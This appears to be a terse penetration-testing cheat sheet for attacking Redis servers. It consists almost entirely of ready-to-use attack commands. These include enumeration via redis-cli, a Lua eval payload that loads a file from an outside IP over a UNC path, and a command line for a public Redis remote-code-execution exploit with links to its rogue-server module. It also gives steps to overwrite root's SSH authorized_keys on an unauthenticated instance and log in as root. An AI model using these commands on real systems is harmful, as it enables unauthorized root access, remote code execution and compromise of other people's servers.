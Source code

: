 # Enumeration
```
redis-cli -h ip
config get *
```

# eval 
```
eval "dofile('\\\\\\\\10.21.176.25\\\\teest')" 0
```
# Redis RCE <=5.0.5
```
python3 redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so

https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so
https://github.com/Ridter/redis-rce/blob/master/redis-rce.py
```
# Redis unauthenticated ssh public_key overwrite
```
redis-cli -h ip
config set dir /root/.ssh
config set dbfilename authorized_keys
set 1 "ssh-rsa ..."
ssh -i private_key root@target_ip
```
